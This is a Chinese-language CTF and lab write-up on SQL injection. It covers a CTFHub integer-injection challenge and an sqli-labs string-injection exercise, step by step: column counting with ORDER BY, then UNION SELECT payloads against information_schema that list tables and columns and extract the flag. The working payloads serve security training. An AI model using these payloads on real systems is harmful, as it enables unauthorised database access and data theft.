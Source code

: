 ### 整数型

1. 判断是整数型还是字符型，有区别=》整数型

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439855.png" alt="image-20210719143944632" style="zoom: 50%;" /><img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439856.png" alt="image-20210719144008063" style="zoom:50%;" />

2. 判断列数，order by3页面不显示，则是2列

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439857.png" alt="image-20210719144050954" style="zoom:50%;" /><img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439858.png" alt="image-20210719144101587" style="zoom:50%;" />

3. union，**注意第一个参数要无效！否则union后面的不显示**

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439859.png" alt="image-20210719144344234" style="zoom:50%;" />



4. 找当前库下所有表名

```url
http://challenge-a1d9c1878cb3631f.sandbox.ctfhub.com:10800/?id=-1 union  select database(),group_concat(table_name) from information_schema.tables where table_schema=database()
```

![image-20210719144701149](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439860.png)



5. 获取特定表列名【==注意列名要加引号==】

```
?id=-1 union  select database(),group_concat(column_name) from information_schema.columns where table_name='flag'
```

![image-20210719144940366](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439861.png)

6. 获取具体数据【注意引号！】

```
?id=-1 union  select database(),flag from flag
```

![image-20210719145233031](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439862.png)



### sqli_labs字符注入

1. 发现是字符注入

联合注入：

​	- 爆库名

​	**可直接用hackbar输出，左边3是需3列才回显，右边是把输出放在第几列回显**

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439863.png" alt="image-20210523111629531" style="zoom:50%;" /><img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439864.png" alt="image-20210523111656991" style="zoom: 50%;" />

```mysql
http://localhost/sqli-labs-master/Less-1/?id='union select 1,group_concat(schema_name),3 from information_schema.schemata%23
```
